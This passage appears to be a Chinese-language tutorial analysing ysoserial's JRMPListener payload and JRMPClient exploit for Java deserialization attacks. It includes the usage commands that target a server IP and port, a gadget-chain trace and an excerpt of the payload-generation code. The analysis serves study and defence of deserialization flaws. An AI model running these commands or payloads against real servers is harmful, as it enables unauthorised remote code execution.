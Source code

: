 ### Exploit/JRMPClient —— Payloads/JRMPListener

这俩exp经常一起使用，其用法如下：

```powershell
## 1. 生成JRMPListener的payload.bin
java -jar ysoserial-xxx.jar JRMPListner [port] > payload.bin
## 2. 将payload.bin发送给服务端让其反序列化，这会在服务器上开启一个端口
## 3. 用JRMPClient生成payload并发起连接，将攻击payload发给它：
java -cp ysoserial-xxx.jar ysoserial.exploit.JRMPClient [targetIp] [port] [payload_type] [payload_arg]
```

这里分开介绍一下吧。

#### `Payloads/JRMPListener`

`Payloads/JRMPListener`令服务端开启一个RMI监听端口，要求服务端存在一个反序列化的接口，其调用栈如代码注释所写：

```java
/**
 * Payloads/JRMPListener.java
 *
 * Gadget chain:
 * UnicastRemoteObject.readObject(ObjectInputStream) line: 235
 * UnicastRemoteObject.reexport() line: 266
 * UnicastRemoteObject.exportObject(Remote, int) line: 320
 * UnicastRemoteObject.exportObject(Remote, UnicastServerRef) line: 383
 * UnicastServerRef.exportObject(Remote, Object, boolean) line: 208
 * LiveRef.exportObject(Target) line: 147
 * TCPEndpoint.exportObject(Target) line: 411
 * TCPTransport.exportObject(Target) line: 249
 * TCPTransport.listen() line: 319
 **/
```

再来看看payload生成代码：

```java
public class JRMPListener extends PayloadRunner implements ObjectPayload<UnicastRemoteObject> {

    private ActivationGroupImpl withConstructor;

    public UnicastRemoteObject getObject (final String command ) throws Exception {
        int jrmpPort = Integer.parseInt(command);
        // UnicastRemoteObject是ActivationGroupImpl的父类
        // 继承关系：ActivationGroupImpl-> ActivationGroup -> UnicastRemoteObject
        UnicastRemoteObject uro = withConstructor;

        Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
        return uro;
    }

	// ****	SNIP	****    
```
